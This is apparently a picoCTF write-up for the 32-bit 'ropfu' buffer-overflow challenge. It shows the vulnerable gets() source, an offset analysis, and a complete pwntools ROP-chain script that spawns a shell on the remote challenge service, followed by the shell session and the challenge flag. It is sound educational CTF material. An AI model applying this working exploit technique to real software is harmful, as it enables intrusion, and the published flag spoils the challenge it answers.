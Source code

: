 # ropfu : Binary Exploitation

What's ROP?  
Can you exploit the following [program](vuln) to get the flag?  
[Download source](vuln.c).  
`nc saturn.picoctf.net 58931`

Author : nc saturn.picoctf.net 58931

# Solution

For now, try running it.
```
$ nc saturn.picoctf.net 57122
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
The service accepts any input. The goal is to get the shell.
  
Check the source code.
```c vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```
It is apparent that the `gets(buf);` in vuln() allows buffer overflow.  
```
$ file vuln 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/home/colza-picoctf/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```
This file is a 32-bit binary.  
Construct a ROP chain that gets the shell and execute it by exploiting a buffer overflow.

Identify the offset.
```
pwndbg> x/12x $ebp-0x18
0xffffcf30:     0x61616161      0x0806e500      0x080e5000      0x08049e12
0xffffcf40:     0x000003e8      0x080e5000      0xffffcf68      0x08049e1a
0xffffcf50:     0x080e5000      0x080e5000      0x080e5000      0x000003e8
```
After calling `gets(buf)`, since `buf` is located at `ebp - 0x18`, we can find that the return address is located 0x1c bytes from the start of `buf` by examining the stack frame.

We need to construct a ROP chain to spawn a shell. Unfortunately, this file is statically compiled, but there are no useful functions (e.g., system()) and the "/bin/sh" string.  
Therefore, to execute `execve("/bin/sh", NULL, NULL)`, we write `/bin/sh` to an address in a read-write memory region and pass the address as the first argument.

We use gets() to write `/bin/sh` to a memory. The write destination is set to the start of the .bss section at 0x080e62c0.

The execution code is below:
```python solve.py
from pwn import *
context.kernel = 'amd64'
elf = ELF('./vuln')

p = remote('saturn.picoctf.net', 57122)

rop = ROP(elf)
rop.call('gets', [0x080e62c0])
rop.execve(0x080e62c0, 0, 0)
print(rop.dump())

payload = b"a" * 0x1c + rop.chain()

p.sendline(payload)
p.sendline(b"/bin/sh")

p.interactive()
```
Execute it.
```
$ python3 solve.py
[*] '/mnt/c/Users/NAEL/Desktop/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
[+] Opening connection to saturn.picoctf.net on port 57122: Done
[*] Loaded 77 cached gadgets for './vuln'
[*] Using sigreturn for 'SYS_execve'
0x0000:        0x8051b60 gets(0x80e62c0)
0x0004:        0x8049022 <adjust @0xc> pop ebx; ret
0x0008:        0x80e62c0 completed.7104
0x000c:        0x80b073a pop eax; ret
0x0010:             0x77 [arg0] eax = SYS_sigreturn
0x0014:        0x804a3c2 int 0x80
0x0018:              0x0 gs
0x001c:              0x0 fs
0x0020:              0x0 es
0x0024:              0x0 ds
0x0028:              0x0 edi
0x002c:              0x0 esi
0x0030:              0x0 ebp
0x0034:              0x0 esp
0x0038:        0x80e62c0 ebx = completed.7104
0x003c:              0x0 edx
0x0040:              0x0 ecx
0x0044:              0xb eax = SYS_execve
0x0048:              0x0 trapno
0x004c:              0x0 err
0x0050:        0x804a3c2 int 0x80
0x0054:             0x23 cs
0x0058:              0x0 eflags
0x005c:              0x0 esp_at_signal
0x0060:             0x2b ss
0x0064:              0x0 fpstate
[*] Switching to interactive mode
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
$ ls
flag.txt
vuln
$ cat flag.txt
picoCTF{5n47ch_7h3_5h311_4c812975}
```

Get the flag!

`picoCTF{5n47ch_7h3_5h311_4c812975}`
